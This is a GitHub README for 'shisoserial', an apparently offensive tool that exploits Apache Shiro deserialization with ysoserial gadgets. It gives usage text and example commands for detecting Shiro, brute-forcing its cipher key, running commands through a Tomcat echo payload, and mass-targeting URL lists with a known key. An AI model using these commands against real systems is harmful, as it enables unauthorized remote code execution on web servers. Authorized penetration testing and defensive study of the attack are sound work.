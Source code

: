 

# shisoserial

## What is this

A simple tool for attacking shiro framework with ysoserial easily.

## Contributor

[4nth0ny](https://github.com/4nth0ny1130) @Friday_lab

## Runtime

*   python 3.x

*   JDK 1.8

## Installation

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## Usage

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
```

## Expample

### Check if shiro framework (default CBC mode)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/image-20211229165754332.png)

### Use proxy angent cracking the shiro key with CBC mode

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```

![](README.assets/image-20211229171904315.png)

### Use Tomcat echo payload attack with  CommonsCollectionsK1 gadget (no DNSlog used)

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/image-20211229175021680.png)

### Mass use specified shiro key with Post method

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![](README.assets/image-20211229173836486.png)

### Use serialize file generate payload

```
python3 shisoserial.py -m encode -u http://127.0.0.1:8080 -s 1.ser
```

![](README.assets/image-20211229175637985.png)

## Disclaimer

This tool can only be used in the safety construction of enterprises with sufficient legal authorization. During the use of this tool, you should ensure that all your actions comply with local laws and regulations. If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself, and all developers and all contributors of this tool will not bear any legal and joint liability.
